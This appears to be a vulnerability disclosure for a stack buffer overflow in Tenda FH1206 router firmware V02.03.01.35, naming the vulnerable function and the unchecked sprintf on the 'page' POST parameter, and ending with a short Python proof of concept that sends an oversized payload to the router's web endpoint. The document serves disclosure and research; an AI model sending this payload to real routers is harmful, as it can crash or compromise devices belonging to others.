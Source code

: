 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromwebExcptypemanFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v8, "firewall_murlexcplist.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![image-20240409100908565](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100908565.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/webExcptypemanFilter"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)